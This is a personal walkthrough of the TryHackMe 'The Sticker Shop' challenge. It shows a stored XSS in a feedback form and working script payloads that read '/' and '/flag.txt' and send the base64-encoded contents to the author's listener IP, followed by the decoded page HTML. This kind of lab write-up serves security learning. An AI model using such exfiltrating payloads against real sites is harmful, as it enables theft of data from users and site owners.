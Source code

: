 ![image](https://github.com/user-attachments/assets/36bc4f91-87a2-4614-aeb5-e57bfe259a98)The Sticker Shop Tryhackme 09/12/2024  
(This is a personal writeup to be consulted later)  

This is the website of the challenge , to get the flag , we need to access http://10.10.250.141:8080/flag.txt  

![image](https://github.com/user-attachments/assets/963c3da6-f9a6-4d9e-badb-a4bad5f02f19)  

I can't click on the stickers.  
there is an input in the Feedback page:  
![image](https://github.com/user-attachments/assets/f8604228-6033-473e-a71d-d4b3e2cd23c1)  

It looks like there is an XSS vulnerability  
I set up for XSS , I prepare the listener :  
" sudo python3 -m http.server 80 "  
![image](https://github.com/user-attachments/assets/19232d56-7203-41ff-af91-32f030083f57)  

then I will use this XSS Payload in the feedback input :  
'<script>
fetch("/", {method:'GET',mode:'no-cors',credentials:'same-origin'})
  .then(response => response.text())
  .then(text => { 
    fetch('http://10.21.40.71:80/' + btoa(text), {mode:'no-cors'}); 
  });
</script>
'  
I got this response on the listener  
![image](https://github.com/user-attachments/assets/cd45fba8-1dd2-4e27-8c80-ab9c7b4c9440)  
I decode it using the command  
'echo "...." | base64 -d"  
I get this result  
<!DOCTYPE html>
<html>
<head>
    <title>Cat Sticker Shop</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            margin: 0;
            padding: 0;
        }
        header {
            background-color: #333;
            color: #fff;
            text-align: center;
            padding: 10px;
        }
        header ul {
            list-style: none;
            padding: 0;
        }
        header li {
            display: inline;
            margin-right: 20px;
        }
        header a {
            text-decoration: none;
            color: #fff;
            font-weight: bold;
        }
        .content {
            padding: 20px;
        }
        .product {
            border: 1px solid #ccc;
            padding: 10px;
            margin: 10px;
            display: inline-block;
        }
    </style>
</head>
<body>
    <header>
        <ul>
            <li><a href="/">Home</a></li>
            <li><a href="/submit_feedback">Feedback</a></li>
        </ul>
    </header>
    <div class="content">
        <h1>Welcome to the Cat Sticker Shop!</h1>
        <div class="product">
            <img src="/static/images/cat_sticker_1.png" alt="Cat Sticker 1" width="300" height="300">
            <h2>Cat Sticker 1</h2>
            <p>Price: $2.99</p>
        </div>
        <div class="product">
            <img src="/static/images/cat_sticker_2.png" alt="Cat Sticker 2" width="300" height="300">
            <h2>Cat Sticker 2</h2>
            <p>Price: $3.99</p>
        </div>

    </div>
    <br>&nbsp;&nbsp;We only sell stickers at our physical store. Please feel free to stop by!
</body>
</html>

==> Then I will change my payload , to check the content of the flag.txt , as the hint is mentioned  
'<script>
fetch("/flag.txt", {method:'GET',mode:'no-cors',credentials:'same-origin'})
  .then(response => response.text())
  .then(text => { 
    fetch('http://10.21.40.71:80/' + btoa(text), {mode:'no-cors'}); 
  });
</script>'  
I got this response :  
![image](https://github.com/user-attachments/assets/64cce555-fffe-44e8-81da-ef3ac72b43e2)  
I decode it the same as before  :  
![image](https://github.com/user-attachments/assets/613e999e-e384-4857-956d-89d94bb49a2d)


